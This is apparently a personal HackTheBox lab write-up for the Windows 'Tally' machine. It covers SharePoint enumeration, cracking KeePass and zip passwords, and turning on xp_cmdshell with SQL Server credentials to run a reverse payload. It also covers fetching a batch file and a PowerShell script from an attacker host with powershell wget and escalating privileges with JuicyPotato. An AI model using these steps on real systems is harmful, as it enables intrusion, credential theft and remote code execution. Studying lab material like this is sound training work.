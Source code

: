 #HackTheBox #window #medium 
# enum

## _gobuster_
└─# 
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CMS/sharepoint.txt -u http://10.129.1.183
```
	/searchcenter/_layouts/15/viewlsts.aspx

# Find
## in http://10.129.1.183/Shared%20Documents/ftp-details.docx
	FTP details
	hostname: tally
	workgroup: htb.local
	password: UTDRSCH53c"$6hys
	Please create your own user folder upon logging in

# exploit
## _connection ftp_
### get
```
bonus.txt  notes.txt  tim.kdbx
```
## _crack .kdbx_
```
keepass2john tim.kdbx > hash
john hash --wordlist=../rockyou.txt

```
	simplementeyo    (tim)

## _connect to tim.kdbx_
```
keepass2 tim.kdbx
```
### Found creds for share
```
Finance/Acc0unting
```

## _smb connexion_
### find
conn-info.txt; orcharddb.zip; tester.exe
```
cat conn-info.txt
```
	old server details
	db: sa
	pass: YE%TJC%&HYbe5Nw
	have changed for tally

## _crack .zip_
```
fcrackzip -u -D -p rockyou.txt htb/orcharddb.zip
```
PASSWORD FOUND!!!!: pw == Acc0unting
### found creds in orcharddb.sql
admin/Finance2

```
strings tester.exe | more
```
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;

## _connect to db_
```
sqsh -S 10.129.153.41 -U sa

```
Password : GWE3V65#6KFH93@4GWTG2G
```
	EXEC SP_CONFIGURE N'show advanced options', 1
```
```
	go
	RECONFIGURE
	go
	EXEC SP_CONFIGURE N'xp_cmdshell', 1
	go
	RECONFIGURE
	go
	xp_cmdshell 'systeminfo'
	go
	
```

## _Create reversePayload and upload it by ftp in Intranet folder_

## _excute payload by sqsh_
```
 xp_cmdshell 'dir c:\FTP\Intranet&zeloShell.exe'
```

# foothold
meterpreter > upload /opt/JuicyPotato.exe
--# 
```
echo "powershell -ExecutionPolicy Bypass -File Pshell.ps1" > zelo.bat
```
## _c:\Users\Sarah\Desktop>_
```
powershell -c wget http://10.10.16.24/zelo.bat -outfile zelo.bat
```
```
powershell -c wget http://10.10.16.24/Pshel.ps1 -outfile Pshell.ps1
```
```
JuicyPotato.exe -l 4444 -p zelo.bat -t *
```

# PrivEsc goten


